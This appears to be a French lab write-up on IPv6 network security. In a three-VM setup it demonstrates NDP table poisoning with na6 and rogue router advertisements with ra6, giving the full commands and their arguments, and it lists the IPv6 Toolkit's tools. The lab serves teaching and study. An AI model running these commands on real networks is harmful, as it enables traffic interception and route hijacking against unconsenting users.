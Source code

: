 # Sécurité réseau et IPv6

[[_TOC_]]

## Tableau d'addressage

| Name     | IP            | MAC               | Description |
|----------|:-------------:|:-----------------:|-------------|
| VM1      | 192.168.33.1  | 00:50:00:00:01:00 |Gateway      |
| VM2      | 192.168.33.10 | 00:50:00:00:04:00 |Victime      |
| Attacker | 192.168.33.11 | 00:50:00:00:05:00 |Attaquant    |

## Corruption de la table NDP

### Outil à utiliser
```
na6
```

### Commande
```
na6 -i ens3 -s 2001:db8:1:0:250:ff:fe00:100 -S 00:50:00:00:01:00 -d 2001:db8:1:0:250:ff:fe00:400 -t 2001:db8:1:0:250:ff:fe00:100 -E 00:50:00:00:05:00 -l
```

Arguments :
- **-s** : IPv6 Source Address
- **-S** : Link-layer Destination Address
- **-d** : IPv6 Destination Address
- **-t** : ND IPv6 Target Address
- **-E** : Source link-layer address option

### Résultats

![NDP Poisoning](./images/ndp_poisoning.gif)

On constate donc que :
- `vm2` ping `vm1` (sa Gateway)
- `attacker` lance la commande na6 malicieuse
- `attacker` récupère ainsi les pings émis par `vm2` (on peut le vérifier à l'aide de la commande *tcpdump*)

## Introduction de rogues RA sur un réseau IPv6

### Outil à utiliser
```
ra6
```

### Commande
```
ra6 -i ens3 -d  2001:db8:1:: -P 2001:db8:2:0::/64#LA -L -e
```

Arguments :
- **-i** : Network interface
- **-d** : IPv6 Destination Address (or IPv6 prefix when flooding)
- **-P** : Prefix option (Prefix/Len#flags#valid#preferred)
- **-L** : Listen to Router Solicitation messages
- **-e** : Add Source link-layer address option

### Résultats
![Rogue RA](./images/ipv6_rogue_router.gif)

On constate donc que :
- `vm1` est un routeur (on vérifie son fichier `/etc/radvd.conf`)
- `vm2` récupère donc sa configuration réseau depuis vm1
- `attacker` lance la commande ra6 malicieuse pour s'annoncer en tant que routeur
- Après down et up de l'interface `ens3` de `vm2`, on constate bien que `vm2` a récupéré sa config réseau depuis `attacker`

## Les Outils présents dans la suite IPv6ToolKit

```bash
addr6: An IPv6 address analysis and manipulation tool.  
blackhole6: A troubleshooting tool which can find IPv6 where in the network topology packets with specific IPv6 Extension Headers are being dropped.  
flow6: A tool to perform a security asseessment of the IPv6 Flow Label.  
frag6: A tool to perform IPv6 fragmentation-based attacks and to perform a security assessment of a number of fragmentation-related aspects.  
icmp6: A tool to perform attacks based on ICMPv6 error messages.  
jumbo6: A tool to assess potential flaws in the handling of IPv6 Jumbograms.  
na6: A tool to send arbitrary Neighbor Advertisement messages.  
ni6: A tool to send arbitrary ICMPv6 Node Information messages, and assess possible flaws in the processing of such packets.  
ns6: A tool to send arbitrary Neighbor Solicitation messages.  
path6: A versatile IPv6-based traceroute tool (which supports extension headers, IPv6 fragmentation, and other features not present in existing traceroute implementations).  
ra6: A tool to send arbitrary Router Advertisement messages.  
rd6: A tool to send arbitrary ICMPv6 Redirect messages.  
rs6: A tool to send arbitrary Router Solicitation messages.  
scan6: An IPv6 address scanning tool.  
script6: A set of scripts/commands that make rather complex and frequent tasks easy.  
tcp6: A tool to send arbitrary TCP segments and perform a variety of TCP-based attacks.  
udp6: A tool for sending arbitrary IPv6-based UDP datagrams.  
```
